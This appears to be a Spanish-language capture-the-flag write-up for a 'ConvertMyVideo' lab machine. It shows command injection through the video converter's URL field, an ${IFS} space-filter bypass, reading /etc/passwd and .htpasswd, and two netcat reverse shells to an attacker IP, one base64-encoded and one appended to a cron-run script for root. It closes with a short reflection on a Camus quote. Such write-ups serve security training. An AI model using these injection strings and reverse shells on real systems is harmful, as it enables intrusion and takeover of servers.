# ConvertMyVideo

Comenzamos realizando un escaneo de puertos en la máquina objetivo.

```bash
nmap -sV -sC -p- -T4 <ip>
```

* -sV: Sondeo de puertos abiertos para determinar la información del servicio/versión
* -sC: equivalente a _--script=default_.
* -p-: Escanea todos los puertos de la Red (65536)
* -T4: La velocidad de escaneo de puertos.

Se han identificado dos puertos abiertos en el sistema: el puerto `22` para `ssh`, el `80`, para `HTTP`.

<figure><figcaption></figcaption></figure>

Realizamos una enumeración de los directorios disponibles en el puerto `80`, pero no encontramos nada interesante. Sin embargo, podemos utilizar la web `index.php`, que funciona como convertidor de video.

<figure><figcaption></figcaption></figure>

Al subir un video, lo que se redirige es una URL con la terminación `v=?>>`. Aunque esto no es lo que nos interesa, al ingresar una `URL` que no contiene un video, recibimos un error, lo cual puede ser útil para determinar los pasos a seguir.

<figure><figcaption></figcaption></figure>


Podemos inyectar código para que el servidor lo ejecute y así obtener una `reverse shell`. Para ello, necesitamos una lista de palabras que contenga varios métodos para saltar o finalizar el código anterior y ejecutar el nuestro. En este caso, nos sirve el siguiente método, que consiste en un salto de línea seguido de la ejecución del comando `id`.

```
%A0id%A0
```

<figure><figcaption></figcaption></figure>


Cuando intentamos ejecutar un comando que contiene espacios, como `cat /etc/passwd`, el sistema solo reconoce hasta el primer espacio.

<figure><figcaption></figcaption></figure>

Para solucionar este problema, podemos utilizar una variable de entorno llamada `${IFS}`, que actúa como un separador de campos internos.

```
cat${IFS}/etc/passwd
```

<figure><figcaption></figcaption></figure>

Con toda esta información, ya podemos crear nuestro payload para una `reverse shell`. Para simplificar el proceso, codificaremos nuestro `payload` en `base64` y lo pasaremos como comando. Quedaría de la siguiente manera.

```payload
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.2.64 4242 >/tmp/f

>> echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.2.64 4242 >/tmp/f' | base 64

cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjkuMi42NCA0MjQyID4vdG1wL2Y=
```

Y para poder cargarlo en nuestro comando, lo ejecutaremos de la siguiente manera:

```
echo${IFS}'<payload-base64>'${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}/bin/bash
```

De esta manera, obtenemos nuestra `reverse shell` con el usuario `www-data`.

<figure><figcaption></figcaption></figure>

# \www-data



Con esto, podemos responder a las dos preguntas que se nos plantean.

1. What username is required to access the secret folder?
2. What is the user flag?

Estas se encuentran en `/var/www/html/admin`, en los archivos `.htpasswd` y `flag.txt`, respectivamente.

<figure><figcaption></figcaption></figure>


Realizamos una enumeración de los servicios con `linpeas.sh` y `pspy64`. Con `linpeas` no encontramos nada relevante, pero al revisar los servicios en ejecucion, notamos que un archivo `bash` se ejecuta de forma recurrente, lo que podría ser nuestra salida.

<figure><figcaption></figcaption></figure>

Nos dirigimos a la carpeta `/var/www/html/tmp` y encontramos el archivo `clean.sh`. Aquí podemos insertar nuestro segundo `payload`, que es el siguiente:

```
busybox nc 10.9.2.64 4243 -e sh
```

Y para escribirlo podemos hacerlo con `nano` o desde la linea de comando con la siguiente linea:

```
echo 'busybox nc 10.9.2.64 4243 -e sh' >> clean.sh
```

Esto escribe en la ultima linea sin eliminar nada de lo ya esta.

<figure><figcaption></figcaption></figure>

Iniciamos nuestro oyente:

```
nc -lvnp 4243
```

Esperamos un momento para que se ejecute el comando y logramos obtener el usuario `root`, lo que nos permite acceder al último archivo necesario, `root.txt`.

<figure><figcaption></figcaption></figure>

---------------

>*"Para ser feliz, no es necesario involucrarse demasiado con los demás."*
>		~Albert Camus
>
>*En el fondo, las relaciones humanas están llenas de ilusiones, expectativas y desilusiones. Cuanto más te apegas a los demás, más te conviertes en rehén de lo que piensan, de lo que requieren y de lo que esperan de ti.*
>
>*Para mí, la felicidad no proviene del exceso de vínculos, sino de la capacidad de permanecer intacto incluso en el silencio y la distancia. Debemos aprender a ser fieles a nosotros mismos; esto no es un desprecio hacia las personas, sino una cuestión de claridad. Puedes amarlas, pero no debes depender de ellas. Puedes caminar a su lado, pero nunca depender del paso de otra persona para seguir tu propio camino.* 
>
>*Ser feliz es entender que esa libertad interior vale más que cualquier aprobación externa y que, a veces, es necesario estar solo para finalmente encontrar la paz.*

<figure><figcaption></figcaption></figure>